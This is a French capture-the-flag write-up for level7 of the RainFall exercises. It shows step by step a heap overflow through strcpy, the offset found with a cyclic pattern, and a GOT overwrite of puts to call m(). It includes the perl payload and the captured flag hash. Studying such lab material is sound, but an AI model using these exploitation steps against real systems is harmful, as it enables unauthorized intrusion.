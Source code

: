 # level7

Le programme met le mot de passe dans une variable globale `c` mais n'en fait rien, en revanche, on voit que la fonction `m` pourrait potentiellement l'afficher

On va donc devoir trouver un moyen de faire un appel à `m()` en utilisant un buffer overflow avec les deux arguments copiés par `strcpy`

On commence par trouver l'offset de l'overflow en utilisant le même outil que pour les exercices précédents:
```sh
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
__libc_start_main(0x8048521, 2, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                        = 0x0804a008
malloc(8)                                                        = 0x0804a018
malloc(8)                                                        = 0x0804a028
malloc(8)                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)        = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
On trouve un offset de 20 en passant l'adresse donnée en argument au 2ème strcpy

Pour construire not payload, on va utiliser un GOT overwrite comme pour les exercices précédents, on va donc avoir besoin de l'adresse de la fonction que l'on veut overwrite, à savoir `puts`

```sh
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen```

On récupère ensuite l'adresse de la fonction `m()` avec gdb 
```sh
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:    push   %ebp
   0x080484f5 <+1>:    mov    %esp,%ebp
   0x080484f7 <+3>:    sub    $0x18,%esp
   0x080484fa <+6>:    movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
```

On connait désormais l'adresse à overwrite: `0x08049928` et l'adresse par laquelle on veut la remplacer: `0x080484f4`, ainsi que l'offset: `20`

Notre payload sera donc: padding (20 characteres) + addresse GOT + adresse de `m()`
L'adresse de `m()` sera donc dans le 2ème argument.

```sh
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x20 ."\x28\x99\x04\x08";' ) $(perl -e 'print "\xf4\x84\x04\x08";') 
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708682178
```

